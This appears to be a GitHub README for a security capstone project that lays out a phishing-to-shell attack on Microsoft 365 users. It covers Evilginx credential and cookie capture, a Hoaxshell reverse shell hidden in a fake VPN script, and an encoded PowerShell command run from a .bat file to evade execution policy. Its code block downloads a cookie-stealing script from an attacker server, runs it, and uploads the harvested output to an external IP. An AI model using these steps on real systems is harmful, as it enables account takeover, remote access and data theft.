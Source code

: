 # Capstone Project

## Overview
The Capstone project is aimed at demonstrating a multi-stage attack scenario targeting Microsoft 365 environments. The attack involves utilizing [Evilginx](https://github.com/kgretzky/evilginx2) for phishing lure creation to obtain initial access by capturing the credentials and cookies of the targeted user. Afterward, [Hoaxshell](https://github.com/t3l3machus/hoaxshell) is used to obtain a payload that establishes remote shell access. To deliver this payload, a fake VPN script is created. To circumvent security measures like execution policy, the PowerShell script is converted into a single-line encoded PowerShell command and executed from a malicious .bat file.

## Components
1. **[Evilginx](https://github.com/kgretzky/evilginx2):** Used for creating phishing lure URLs to capture user credentials and cookies.
2. **[Hoaxshell](https://github.com/t3l3machus/hoaxshell):** Used to obtain a payload for establishing remote shell access.
3. **Fake VPN Script:** Created to deliver the payload, disguising it as a legitimate VPN script. Used to obtain malicious payload containing all of this.
4. **Encoded PowerShell Command:** Used to execute the payload from a malicious .bat file, bypassing execution policies.
5. **Cookie Decryptor:** Used to decrypt and extract all Chrome cookies.

## Usage
1. **[Evilginx](https://github.com/kgretzky/evilginx2) Setup:** Configure [Evilginx](https://github.com/kgretzky/evilginx2) to create phishing URLs targeting Microsoft 365 login pages.
2. **Phishing Campaign:** Launch a phishing campaign to lure targeted users into entering their credentials.
3. **Payload Generation:** Utilize [Hoaxshell](https://github.com/t3l3machus/hoaxshell) to generate a payload for establishing remote shell access.
4. **Encoding PowerShell Command:** Convert the PowerShell script into a single-line encoded PowerShell command.
5. **Execution:** Execute the encoded PowerShell command from the malicious .bat file to establish remote shell access.
6. **Cookie Decryptor:** Used to decrypt and extract all Chrome cookies.

## Installing the Python Script in HoaxShell
```
# Download Python installer
Invoke-WebRequest -Uri "https://www.python.org/ftp/python/3.9.7/python-3.9.7-amd64.exe" -OutFile "python-3.9.7-amd64.exe"

# Install Python silently
Start-Process -FilePath "python-3.9.7-amd64.exe" -ArgumentList "/quiet", "InstallAllUsers=1", "PrependPath=1" -NoNewWindow -Wait

# Clean up downloaded installer
Remove-Item "python-3.9.7-amd64.exe"


# Change Directory to pip3 location
cd “C:\Program Files\Python39\Scripts\”

# Install Required Packages
./pip3.exe install pycryptodome pypiwin32

# Pulling the Python Script from Simple Web Server (Python -m http.server 8080)
Invoke-WebRequest -Uri "http://X.X.X.X/cookiemonster.py" -OutFile "C:\Users\XXXXXXX\Documents\cookiemonster.py"

# Run the file (ensure the file is hosted within the directory of the Users Cookies you want)
& “C:\Program Files\Python39\python.exe” “C:\Users\XXXXXXXXXXXXXXXXXXX\Documents\cookiemonster.py”

# Extraction: Upload the file to a Simple PHP Web Server
(New-Object System.Net.WebClient).UploadFile("http://35.203.99.71/upload.php", "C:\Users\champuser\Desktop\output.txt")
```

## Disclaimer
This project is intended for educational and research purposes only. Unauthorized use of this project for malicious purposes is strictly prohibited. The authors of this project are not responsible for any misuse or damage caused by its implementation.
